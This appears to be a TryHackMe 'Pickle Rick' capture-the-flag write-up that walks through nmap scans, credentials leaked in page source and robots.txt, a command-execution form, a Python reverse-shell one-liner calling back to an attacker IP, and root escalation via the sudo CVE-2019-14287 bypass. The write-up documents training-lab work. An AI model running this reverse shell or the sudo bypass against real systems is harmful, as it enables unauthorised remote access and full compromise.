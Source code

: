 
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-1.png)

In this room i found the username in the source page and the password in a common file. By deducing i found s login which had a form that executes unix commands. Naturally i crafted a reverse shell payload and started to search the ingredients. The privesc was easy as the sudo version was vulnerable to CVE-2019-14287. 

As always, the nmap scans.

```
nmap -sS -T4 -p- 10.10.211.197
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 06:09 EDT
Nmap scan report for 10.10.211.197
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


```
nmap -sV -sC  -p22,80 10.10.211.197
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 06:08 EDT
Nmap scan report for 10.10.211.197
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:23:8a:51:fe:5e:df:7e:21:a7:68:86:25:53:93:13 (RSA)
|   256 2e:dc:f5:e4:76:91:03:bc:4c:db:79:23:f1:fa:15:cc (ECDSA)
|_  256 89:31:b8:21:d2:3b:03:27:61:7e:ca:f7:6f:32:95:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The first page.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-2.png)

The page source has this message along with a  username. This username can be used to login via ssh or a login form.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-3.png)

The robots.txt has this string which is not a file on a server, but may be used as a password.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-4.png)

In this case i guessed there is a login.php file, and i can login with the found credentials.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-5.png)

The redirected page has this input field which executes bash commands.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-6.png)

Let's see what is on the current directory.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Pickle%20rick/images/86-7.png)

I cannot use cat, but there are other ways of reading files like less, more, strings. I just used less.

The contents of clue.txt
```
Look around the file system for the other ingredient.
```

Out of commodity i will use a reverse shell with the payload below.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.5.181",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```


This time i didn't made screen captures as i wanted to test how it look like with only text. The second ingredient is in rick folder, not rick's folder, because there is no user rick.

```
www-data@ip-10-10-16-214:/home/rick$ ls -la
ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

To read the file it is necessary to specify the \.  cat second\ ingredients

The third one, i think it must be in the root directory. I recently finished the  sudovuln series and wanted to use what i learned. 

```
www-data@ip-10-10-16-214:/$ sudo -V
sudo -V
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
```

Based on the sudo version, this system is vulnerable to CVE-2019-14287.

```
www-data@ip-10-10-16-214:/$ sudo -u#-1 /bin/sh
sudo -u#-1 /bin/sh
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Now that i am root i can access anything on the system.  

```
# cd root
cd root
# ls
ls
3rd.txt  snap
```
As i thought, the third flag was in the root directory.




